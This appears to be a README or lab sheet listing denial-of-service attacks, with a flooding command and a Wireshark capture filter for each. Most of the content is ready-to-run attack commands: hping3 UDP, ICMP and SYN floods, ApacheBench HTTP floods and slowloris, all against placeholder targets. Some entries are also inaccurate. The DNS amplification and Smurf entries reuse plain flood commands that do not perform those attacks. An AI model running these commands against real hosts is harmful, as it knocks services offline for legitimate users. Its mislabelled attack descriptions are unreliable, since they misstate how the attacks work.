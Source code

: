 ### 1. Volume-Based Attacks
**Aim:**
Volume-based attacks aim to overwhelm the target with a massive amount of traffic, consuming bandwidth and resources.

**Types:**
- **UDP Flood:**
  - **Command:**
    ```bash
    hping3 -2 -p 53 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    udp
    ```

- **ICMP Flood (Ping Flood):**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

- **DNS Amplification:**
  - **Command:**
    ```bash
    hping3 -2 -p 53 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    dns
    ```

**Effect:**
These attacks can saturate the target's bandwidth, making it unavailable to legitimate users.

### 2. Protocol Attacks
**Aim:**
Protocol attacks exploit weaknesses in the network protocol stack, consuming server resources.

**Types:**
- **SYN Flood:**
  - **Command:**
    ```bash
    hping3 -S -p 80 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    tcp.flags.syn == 1
    ```

- **Ping of Death:**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V -d 65500 <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

- **Smurf Attack:**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

**Effect:**
These attacks can exhaust server resources, leading to denial of service.

### 3. Application Layer Attacks
**Aim:**
Application layer attacks target specific applications or services, overwhelming them with requests.

**Types:**
- **HTTP GET/POST Flood:**
  - **Command:**
    ```bash
    ab -n 10000 -c 100 <target_url>
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

- **Slowloris:**
  - **Command:**
    ```bash
    slowloris <target_ip> -p 80 -s 500 -t 100
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

- **XML/JSON API Flood:**
  - **Command:**
    ```bash
    ab -n 10000 -c 100 -p postdata.txt <target_url>
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

**Effect:**
These attacks can exhaust application resources, making the service unavailable to legitimate users.

### Capturing Traffic with Wireshark
To capture the traffic for these attacks, follow these steps:

1. **Start Wireshark:**
   - Open Wireshark and select the network interface you want to capture traffic on.

2. **Apply Filters:**
   - Use the appropriate Wireshark filters mentioned above to capture the specific type of traffic.

3. **Start Capture:**
   - Begin the capture before initiating the attack.

4. **Analyze Traffic:**
   - After the attack, stop the capture and analyze the traffic to observe the effects of the attack.


